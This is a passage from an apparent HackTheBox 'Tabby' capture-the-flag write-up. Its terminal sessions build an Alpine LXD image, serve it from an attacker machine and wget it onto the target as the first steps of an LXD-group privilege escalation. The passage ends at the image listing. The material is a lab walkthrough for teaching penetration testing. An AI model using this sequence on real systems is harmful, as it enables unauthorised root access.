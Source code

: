```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ git clone https://github.com/saghul/lxd-alpine-builder.git 

Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Unpacking objects: 100% (27/27), 15.98 KiB | 1.60 MiB/s, done.

┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ cd lxd-alpine-builder

┌──(sid㉿kali)-[~/…/hackthebox/linux-machines/tabby/lxd-alpine-builder]
└─$ sudo ./build-alpine

┌──(sid㉿kali)-[~/…/hackthebox/linux-machines/tabby/lxd-alpine-builder]
└─$ ls
alpine-v3.12-x86_64-20201107_2130.tar.gz  build-alpine  LICENSE  README.md

┌──(sid㉿kali)-[~/…/hackthebox/linux-machines/tabby/lxd-alpine-builder]
└─$ python3 -m http.server 7777
Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...

```
On tabby :

```shell
ash@tabby:~$ wget http://10.10.14.9:7777/alpine-v3.12-x86_64-20201107_2130.tar.gz
Connecting to 10.10.14.9:7777... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3194011 (3.0M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20201107_2130.tar.gz’

alpine-v3.12-x86_64 100%[===================>]   3.05M  2.57MB/s    in 1.2s    

2020-11-07 16:21:28 (2.57 MB/s) - ‘alpine-v3.12-x86_64-20201107_2130.tar.gz’ saved [3194011/3194011]

ash@tabby:~$ lxd init
lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: no
no
Do you want to configure a new storage pool? (yes/no) [default=yes]: no
no
Would you like to connect to a MAAS server? (yes/no) [default=no]: no
no
Would you like to create a new local network bridge? (yes/no) [default=yes]: no
no
Would you like to configure LXD to use an existing bridge or host interface? (yes/no) [default=no]: no
no
Would you like LXD to be available over the network? (yes/no) [default=no]: no
no
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] no
no
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: no
no

ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20201107_2130.tar.gz --alias myimage
lxc image import ./alpine-v3.12-x86_64-20201107_2130.tar.gz --alias myimage
ash@tabby:~$ lxc image list
lxc image list
+---------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
```